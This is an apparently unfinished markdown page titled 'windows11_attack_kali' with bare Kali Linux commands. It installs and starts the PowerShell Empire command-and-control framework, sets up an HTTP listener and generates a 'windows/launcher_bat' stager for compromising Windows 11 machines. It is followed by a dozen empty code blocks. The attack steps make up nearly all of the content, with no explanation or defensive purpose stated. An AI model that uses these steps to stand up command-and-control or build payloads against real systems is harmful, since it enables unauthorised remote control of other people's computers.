 ```yaml
---
title: windows11_attack_kali
description: windows11_attack_kali
layout: libdoc/page

#LibDoc specific below
category: Features
order: 106
#unlisted: true
---
```

* 
{:toc}

sudo apt-get update
sudo apt-get upgrade
```
```bash
sudo apt-get remove --purge mariadb-server
sudo apt-get install mariadb-server

```
```bash
sudo apt install powershell-empire
```
```bash
sudo powershell-empire server
```
```bash
set port 4321
```
```bash
listener
execute
```
```bash
usestager windows/launcher_bat
```
```bash
set listener http
```
```bash
execute
```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
```bash

```
